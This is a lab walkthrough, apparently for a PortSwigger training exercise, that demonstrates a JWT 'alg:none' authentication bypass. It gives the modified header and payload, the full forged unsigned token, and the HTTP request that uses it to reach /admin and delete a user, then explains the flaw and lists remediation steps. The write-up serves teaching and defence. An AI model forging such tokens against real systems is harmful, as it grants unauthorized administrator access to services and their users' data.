





# JWT authentication bypass via flawed signature verification

The JOSE spec defines `"alg": "none"` for genuinely **unsecured** JWTs — tokens with no signature at all, intended only for contexts where integrity is guaranteed another way. Some server-side JWT libraries still honour this value from an *untrusted, attacker-supplied* token. If the verification code branches on whatever `alg` the token claims, an attacker can simply ask the server not to check anything.

!!! note "BASICS — alg confusion"
    The algorithm used to verify a JWT must be a decision the **server** makes, not a field the **client** controls. `alg:none` is the clearest example of trusting the token's own metadata to decide how the token should be validated — a self-referential mistake that other confusion attacks (HS/RS mix-ups) also exploit.

## 1. Capture a legitimate token

Log in as `wiener` and pull the session JWT into Burp's JWT Editor / Decoder.



## 2. Switch the algorithm to none and escalate the claim

Set the header's `alg` to `none` (case variants like `None`, `NONE` are also worth trying), strip the signature segment entirely, and change the payload's `sub` to `administrator`:

```json
// Header
{ "kid": "6112076d-a6f1-42ad-8a5c-bb6b774cb3b0", "alg": "none" }

// Payload
{ "iss": "portswigger", "exp": 1772783073, "sub": "administrator" }
```

```text
eyJraWQiOiI2MTEyMDc2ZC1hNmYxLTQyYWQtOGE1Yy1iYjZiNzc0Y2IzYjAiLCJhbGciOiJub25lIn0.
eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc3Mjc4MzA3Mywic3ViIjoiYWRtaW5pc3RyYXRvciJ9.
```

A JWT with no third segment is a structurally valid "unsecured" JWT per RFC 7519 section 6.



## 3. Send the forged token to a privileged endpoint

Replace the session cookie with the unsecured token and request `/admin`.

```http
GET /admin HTTP/2
Cookie: session=eyJraWQiOiI2MTEyMDc2ZC1hNmYxLTQyYWQtOGE1Yy1iYjZiNzc0Y2IzYjAiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc3Mjc4MzA3Mywic3ViIjoiYWRtaW5pc3RyYXRvciJ9.
```

The server accepts the claim without ever running a signature check, since its code path for `alg:none` skips verification.



## 4. Confirm the bypass

Delete the `carlos` user from the admin panel to prove full privileged access.





## Why it works

The server's JWT library reads `alg` from the attacker-controlled header and dispatches verification logic based on it. When that value is `none`, the library's "verification" is a no-op by design — it was built for a trusted-token scenario, not an attacker-facing one. Letting the token choose its own algorithm turns every "secure by default" assumption inside the library into something the attacker controls.

## Remediation

- Never accept `alg:none` from client-supplied tokens; most mature JWT libraries reject it by default — don't override that behaviour.
- Pin the expected algorithm server-side and reject any token whose header doesn't match it, instead of trusting the header.
- Keep JWT libraries up to date; this exact class of bug has been patched repeatedly across ecosystems.
